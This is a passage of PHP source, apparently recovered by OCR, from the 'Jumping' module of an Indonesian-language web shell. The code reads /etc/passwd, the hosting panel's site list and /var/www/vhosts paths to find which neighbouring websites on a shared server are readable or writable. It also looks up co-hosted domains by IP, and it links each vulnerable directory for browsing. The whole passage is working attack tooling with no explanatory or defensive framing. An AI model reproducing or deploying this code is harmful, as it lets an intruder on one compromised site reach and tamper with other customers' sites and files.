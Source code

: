         } else {
            echo "<br>Total ada ".$i." Kamar di ".$ip;
        }
        echo "</pre>";
        } else {
            echo '<center>
                  <form method="post">
                  List Domains: <br>
                  <textarea name="url" style="width: 500px; height: 250px;">';
            $fp = fopen("/hsphere/local/config/httpd/sites/sites.txt","r");
            while($getss = fgets($fp)) {
                echo $getss;
            }
            echo  '</textarea><br>
                  <input type="submit" value="Jumping" name="jump" style="width: 500px; height: 25px;">
                  </form></center>';
        }
    } elseif(preg_match("/vhosts/", $dir)) {
        $urls = explode("\r\n", $_POST['url']);
        if(isset($_POST['jump'])) {
            echo "<pre>";
            foreach($urls as $url) {
                $web_vh = "/var/www/vhosts/$url/httpdocs";
                if(is_dir($web_vh) === true) {
                    if(is_readable($web_vh)) {
                        $i++;
                        $jrw = "[<font color=green>R</font>] <a href='?dir=$web_vh'><font color=#0046FF>$web_vh</font></a>";
                        if(is_writable($web_vh)) {
                            $jrw = "[<font color=green>RW</font>] <a href='?dir=$web_vh'><font color=#0046FF>$web_vh</font></a>";
                        }
                        echo $jrw."<br>";
                    }
                }
            }
        if($i == 0) {
        } else {
            echo "<br>Total ada ".$i." Kamar di ".$ip;
        }
        echo "</pre>";
        } else {
            echo '<center>
                  <form method="post">
                  List Domains: <br>
                  <textarea name="url" style="width: 500px; height: 250px;">';
                  bing("ip:$ip");
            echo  '</textarea><br>
                  <input type="submit" value="Jumping" name="jump" style="width: 500px; height: 25px;">
 
                  </form></center>';
        }
    } else {
        echo "<pre>";
        $etc = fopen("/etc/passwd", "r") or die("<font color=red>Can't read /etc/passwd</font>");
        while($passwd = fgets($etc)) {
            if($passwd == '' || !$etc) {
                echo "<font color=red>Can't read /etc/passwd</font>";
            } else {
                preg_match_all('/(.*?):x:/', $passwd, $user_jumping);
                foreach($user_jumping[1] as $user_pro_jump) {
                    $user_jumping_dir = "/home/$user_pro_jump/public_html";
                    if(is_readable($user_jumping_dir)) {
                        $i++;